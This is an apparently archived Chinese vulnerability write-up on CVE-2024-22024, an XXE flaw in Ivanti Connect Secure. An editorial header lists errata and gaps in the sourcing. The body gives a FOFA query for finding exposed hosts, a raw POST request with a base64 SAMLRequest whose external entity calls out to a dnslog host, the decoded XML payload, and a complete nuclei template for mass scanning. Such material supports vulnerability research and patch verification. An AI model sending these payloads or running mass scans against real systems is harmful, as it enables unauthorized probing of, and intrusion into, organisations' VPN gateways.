



# CVE-2024-22024

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：Ivanti Connect Secure
- 文献类型：SAML XXE复现与模板
- 版本、权限及部署边界：/dana-na/auth/saml-sso.cgi可达；受影响版本与SAML配置条件未列；外部实体网络出口可达
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 产品名混用Pulse Connect Secure旧名，版本栏仅产品名；须核对Connect/Policy Secure与ZTA范围，不据品牌推定
2. DNS回连证明外部实体解析，未证明敏感文件读取或远程代码执行；结合相关功能RCE没有具体链证据
3. Base64放form字段时应说明URL编码，通用载荷可能含+并被表单解码改变；当前给出的样例需按原始请求核对
4. 模板带kev标签但没有目录来源或核验日期，公开EXP和低成本声明需来源支持
5. 有watchTowr研究，无Ivanti官方修复build；泛用XXE介绍错误把PDF与XML结构直接等同、并扩大file/命令后果

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文参考链接（未重新核验）：<http://dnslog.pw/dns/?&monitor=true，注册好之后向靶场发送如下数据包，让靶场解析xml数据然后访问dns>
- 原文参考链接（未重新核验）：<http://c2vkbwbs.dnslog.pw/x>
- 原文参考链接（未重新核验）：<https://labs.watchtowr.com/are-we-now-part-of-ivanti/>
- 原文参考链接（未重新核验）：<https://twitter.com/h4x0r_dz/status/1755849867149103106/photo/1>
- 原文参考链接（未重新核验）：<http://{{interactsh-url}}/x>
- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

原创 fgz  AI与网安   2024-02-27 07:00  
  
免  
责  
申  
明  
：**本文内容为学习笔记分享，仅供技术学习参考，请勿用作违法用途，任何个人和组织利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责，与作者无关！！！**  
  
  
该漏洞EXP已公开传播，漏洞利用成本极低，建议您立即关注并修复。  
  
  
01  
  
—  
  
漏洞名称  
  
  
  
Ivanti Pulse Connect Secure VPN XXE 漏洞  
  
  
**先介绍下什么是XXE漏洞:**  
  
    XXE漏洞全称XML External Entity Injection即xml外部实体注入漏洞，XXE漏洞发生在应用程序解析XML输入时，没有禁止外部实体的加载，导致可加载恶意外部文件，造成文件读取、命令执行、内网端口扫描、攻击内网网站、发起dos攻击等危害。xxe漏洞触发的点往往是可以上传xml文件的位置，没有对上传的xml文件进行过滤，导致可上传恶意xml文件。  
  
　　XXE漏洞是针对使用XML交互的Web应用程序的攻击方法，在XXE漏洞的基础上，发展出了Blind XXE漏洞。目前来看，XML文件作为配置文件（Spring、Struts2等）、文档结构说明文件（PDF、RSS等）、图片格式文件（SVG header）应用比较广泛，此外，网上有一些在线XML格式化工具也存在过问题。  
  
  
  
  
02  
  
—  
  
漏洞影响  
  
  
Ivanti Pulse Connect Secure VPN  
  
  
  
  
03  
  
—  
  
漏洞描述  
  
  
2024年2月13日互联网上披露 CVE-2024-22024 Ivanti Pulse Connect Secure VPN XXE 漏洞，攻击者可构造恶意请求触发XXE，结合相关功能造成远程代码执行。  
  
  
04  
  
—  
  
FOFA搜索语句  
  
  
```
body="welcome.cgi?p=logo"
```  
  
  
  
  
05  
  
—  
  
漏洞复现  
  
  
该漏洞需要借助dnslog来复现，首先注册一个dnslog平台的账号，用于回显，如http://dnslog.pw/dns/?&monitor=true，注册好之后向靶场发送如下数据包，让靶场解析xml数据然后访问dns  
```
POST /dana-na/auth/saml-sso.cgi HTTP/1.1
Host: 192.168.40.130:111
User-Agent: Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/40.0.2214.93 Safari/537.36
Connection: close
Content-Length: 204
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

SAMLRequest=PD94bWwgdmVyc2lvbj0iMS4wIiA/PjwhRE9DVFlQRSByb290IFs8IUVOVElUWSAlIHdhdGNoVG93ciBTWVNURU0KICAgICJodHRwOi8vYzJ2a2J3YnMuZG5zbG9nLnB3L3giPiAld2F0Y2hUb3dyO10+PHI+PC9yPg==
```  
  
其中  
SAMLRequest的值是xml文件内容的base64值，xml文件如下  
```
<?xml version="1.0" ?><!DOCTYPE root [<!ENTITY % watchTowr SYSTEM
    "http://c2vkbwbs.dnslog.pw/x"> %watchTowr;]><r></r>
```  
  
  
在DNSlog平台能看到一条访问记录  
  
  
  
  
  
漏洞复现成功  
  
  
  
06  
  
—  
  
批量扫描poc  
  
  
nuclei poc文件内容如下  
```
id: CVE-2024-22024

info:
  name: Ivanti Connect Secure - XXE
  author: watchTowr
  severity: high
  description: |
    Ivanti Connect Secure is vulnerable to XXE (XML External Entity) injection.
  impact: |
    Successful exploitation of this vulnerability could lead to unauthorized access to sensitive information or remote code execution.
  remediation: |
    Apply the latest security patches or updates provided by Ivanti to fix the XXE vulnerability.
  reference:
    - https://labs.watchtowr.com/are-we-now-part-of-ivanti/
    - https://twitter.com/h4x0r_dz/status/1755849867149103106/photo/1
  metadata:
    max-request: 1
    vendor: ivanti
    product: "connect_secure"
    shodan-query: "html:\"welcome.cgi?p=logo\""
  tags: cve,cve2024,kev,xxe,ivanti

variables:
  payload: '<?xml version="1.0" ?><!DOCTYPE root [<!ENTITY % watchTowr SYSTEM
    "http://{{interactsh-url}}/x"> %watchTowr;]><r></r>'

http:
  - raw:
      - |
        POST /dana-na/auth/saml-sso.cgi HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/x-www-form-urlencoded

        SAMLRequest={{base64(payload)}}

    matchers-condition: and
    matchers:
      - type: word
        part: interactsh_protocol  # Confirms the DNS Interaction
        words:
          - "dns"

      - type: word
        part: body
        words:
          - '/dana-na/'
          - 'WriteCSS'
        condition: and
# digest: 490a0046304402206a39800bff0d9ca85a05e3686a0e246f8d5504a38e8501a1d7e8684ae6f2853002205ba7c74bb1f99cacf693e8a5a1cd429dcd7e52fab188beb8c95b934e4aabcd57:922c64590222798bb761d5b6d8e72950
```  
  
  
  
07  
  
—  
  
修复建议  
  
  
升级到最新版本。  
  
  
08  
  
—  
  
新粉丝福利领取  
  
  
在公众号主页或者文章末尾点击发送消息免费领取。  
  
发送【  
电子书】关键字获取电子书  
  
发送【  
POC】关键字获取POC  
  
发送【  
工具】获取渗透工具包  
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原始披露 URL 尚未确认，现有链接按来源追溯区分别标注）
